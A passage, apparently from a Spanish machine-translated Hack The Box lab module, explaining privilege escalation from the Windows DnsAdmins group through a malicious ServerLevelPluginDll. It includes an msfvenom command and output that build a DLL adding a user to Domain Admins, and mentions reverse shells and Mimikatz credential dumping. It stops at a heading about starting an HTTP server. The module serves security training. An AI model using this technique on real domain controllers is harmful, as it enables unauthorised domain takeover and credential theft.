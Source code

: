 # Dnsadmins

---

Miembros de la[Dnsadmins](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#dnsadmins)El grupo tiene acceso a información DNS en la red. El servicio DNS de Windows admite complementos personalizados y puede llamar a las funciones de ellos para resolver consultas de nombres que no están en el alcance de ninguna zonas DNS alojadas localmente. El servicio DNS se ejecuta como`NT AUTHORITY\SYSTEM`, por lo que la membresía en este grupo podría aprovecharse para aumentar los privilegios en un controlador de dominio o en una situación en la que un servidor separado está actuando como el servidor DNS para el dominio. Es posible usar el incorporado[dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd)Utilidad para especificar la ruta del complemento DLL. Como se detalla en este excelente[correo](https://adsecurity.org/?p=4064), el siguiente ataque se puede realizar cuando DNS se ejecuta en un controlador de dominio (que es muy común):

- DNS Management se realiza a través de RPC
- [ServerlevelPlugindll](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723)nos permite cargar una DLL personalizada con cero verificación de la ruta de la DLL. Esto se puede hacer con el`dnscmd`Herramienta desde la línea de comando
- Cuando un miembro del`DnsAdmins`El grupo ejecuta el`dnscmd`Comando a continuación, el`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll`La clave de registro está poblada
- Cuando se reinicie el servicio DNS, se cargará la DLL en esta ruta (es decir, una red compartida a la que puede acceder la cuenta de la máquina del controlador de dominio)
- Un atacante puede cargar una DLL personalizada para obtener una carcasa inversa o incluso cargar una herramienta como Mimikatz como DLL para volcar las credenciales.

Pasemos el ataque.

---

## Aprovechando el acceso a Dnsadmins

#### Generando DLL malicioso

Podemos generar una DLL maliciosa para agregar un usuario al`domain admins`grupo usando`msfvenom`.

  Dnsadmins

```shell-session
xnoxos@htb[/htb]$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 313 bytes
Final size of dll file: 5120 bytes
Saved as: adduser.dll
```

#### Iniciar servidor HTTP local
